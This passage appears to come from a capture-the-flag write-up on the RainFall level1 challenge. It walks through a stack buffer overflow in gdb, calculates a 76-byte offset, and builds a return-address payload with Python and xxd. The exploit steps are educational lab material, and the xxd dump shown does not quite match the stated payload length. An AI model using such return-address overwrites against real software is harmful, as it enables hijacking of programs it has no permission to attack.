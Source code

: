 **Stack Memory Layout:**
```
Memory Layout Analysis:
ESP = 0xbffff750 (stack pointer)
EBP = 0xbffff7a8 (base pointer)
Buffer = ESP+16 = 0xbffff760

Distance Calculation:
From buffer start to saved EBP: 0xbffff7a8 - 0xbffff760 = 72 bytes
From buffer start to return address: 72 + 4 = 76 bytes

Stack Structure:
[Buffer: 64 bytes][Unused: 8 bytes][Saved EBP: 4 bytes][Return Address: 4 bytes]
```

### 7. Buffer Overflow Distance Testing
```bash
(gdb) run <<< $(python -c 'print "A"*80')
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

**Buffer Overflow Confirmation:**
- **0x41414141 = "AAAA"**: Confirms we're overwriting the return address
- **Segfault on return**: Program crashes when trying to return to 0x41414141
- **Control achieved**: We can control where the program jumps

### 8. Calculating the Exact Offset

- **Total stack space**: 0x50 (80 bytes).
- **Buffer starts at  esp + 0x10 (16 bytes in).**
- **Buffer size**:  80 - 16 = 64 bytes .
- **Pattern**: 76 bytes filler + 4 bytes target address
- **Target**: 0x08048444 (address of run function)

## Exploitation Implementation

### 9. Crafting the Exploit Payload
```bash
# Target address: 0x08048444 (run function)
# Little-endian format: \x44\x84\x04\x08

# Create payload file
level1@RainFall:~$ python -c "print('A' * 76 + '\x44\x84\x04\x08')" > /tmp/payload

# Check payload content
level1@RainFall:~$ xxd /tmp/payload
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
...
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4484 0408 0a                             D....

# Total: 76 A's + 4 bytes address + newline = 81 bytes
```
